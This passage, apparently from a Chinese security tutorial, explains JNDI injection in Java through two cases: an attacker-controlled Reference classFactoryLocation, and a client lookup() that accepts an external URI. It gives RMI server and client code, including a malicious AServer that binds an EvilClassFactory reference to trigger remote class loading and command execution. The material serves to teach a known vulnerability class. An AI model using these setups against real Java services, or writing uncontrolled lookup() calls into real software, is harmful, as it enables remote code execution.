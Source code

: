 #### 服务端Reference classFactoryLocation可控

在Reference构造函数中的第三个参数，远程加载类的URL地址，称为classFactoryLocation。

```java
Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
```

因为在服务端，所以这种情况很少见。

如下Server：

```java
public class BServer {
    public static void main(String args[]) throws Exception {
        String uri = args[0];
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", uri);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        registry.bind("demo", refObjWrapper);
    }
}
```

可以看到uri可控，当指向攻击者自己的web服务器，攻击者将EvilClassFactory恶意类放到自己的web服务器下 uri路径。RMI客户端通过JNDI查询绑定的类时，会远程加载恶意类造成命令执行

#### 客户端lookup参数可控

如JNDI客户端lookup()接收外部可控参数：

```java
public class JNDIClient {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY,
                "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        String uri = args[0];
        Context ctx = new InitialContext(env);
        ctx.lookup(uri);
    }
}
```

攻击者可以传入恶意URI地址指向攻击者的RMIRegistry，构造恶意RMIServer，自然也能构造RMI注册表的恶意类。比如攻击者搭建的恶意AServer（图方便注册表和server一起写）

```java
public class AServer {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1688);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", "test");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*]Binding 'exp' to 'rmi://127.0.0.1:1688/exp'");
        registry.bind("exp", refObjWrapper);
    }
}
```

